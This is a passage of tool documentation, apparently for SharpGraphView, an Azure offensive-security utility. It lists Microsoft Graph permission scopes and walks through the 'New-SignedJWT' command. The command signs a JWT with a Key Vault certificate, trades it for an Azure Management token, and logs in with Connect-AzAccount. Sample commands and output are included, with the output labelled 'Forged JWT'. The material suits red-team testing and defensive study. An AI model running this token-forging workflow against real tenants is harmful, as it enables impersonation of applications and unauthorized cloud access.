 ```powershell
Files.Read.All
Files.ReadWrite.All
Group.Read.All
Group.ReadWrite.All
InformationProtectionPolicy.Read
Mail.ReadWrite
Mail.Send
Notes.Create
Organization.Read.All
People.Read
People.Read.All
Printer.Read.All
PrintJob.ReadWriteBasic
SensitiveInfoType.Detect
SensitiveInfoType.Read.All
SensitivityLabel.Evaluate
Tasks.ReadWrite
TeamMember.ReadWrite.All
TeamsTab.ReadWriteForChat
User.Read.All
User.ReadBasic.All
User.ReadWrite
Users.Read
```

## New-SignedJWT

Construct new JWT token with the details extracted from Key Vault Certificate and sign it. Requires the following permissions:
```
Microsoft.KeyVault/vaults/certificates/read
Microsoft.KeyVault/vaults/keys/read
Microsoft.KeyVault/vaults/keys/sign/action
```
Generating a signed JWT and request an Azure Management token (ARM):
```powershell
PS > .\SharpGraphView.exe New-SignedJWT -id f9f75aac-fe0a-47e6-bfd3-98d8af327d8a -tenant fbf34b9d-6375-4137-ae1f-8cb12df29bb5 -query https://DevAppVault.vault.azure.net -key DevAppCert -token $vault_token

[*] New-SignedJWT

[+] Certificate Details Obtained!
kid: https://devappvault.vault.azure.net/keys/DevAppCert/2fb10001e7f0474916dec596b3818d56
x5t: 9xdFz3zEX8jJax-ihve1h-GhmQa

[+] Forged JWT:
eyJ4NXQiOiJxNnhGejN6RVg4akpheC1paHZlMWgtUmR1TVUiLCJ0eXAiOi...

[+] Azure Management Token Obtained!
[*] Application ID: f9f75aac-fe0a-47e6-bfd3-98d8af327d8a
[*] Tenant ID: fbf34b9d-6375-4137-ae1f-8cb12df29bb5
[*] Scope: https://management.azure.com/.default
[*] token_type: Bearer
[*] expires_in: 3599
[*] ext_expires_in: 3599
[*] access_token: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6IkwxS2ZLRklfam5YYndXYzI...
```
The returned management token can then be used to authenticate to Azure:
```powershell
PS > Connect-AzAccount -AccessToken eyJ0eXAiOi... -AccountId f9f75aac-fe0a-47e6-bfd3-98d8af327d8a

Account                              SubscriptionName       TenantId                             Environment
```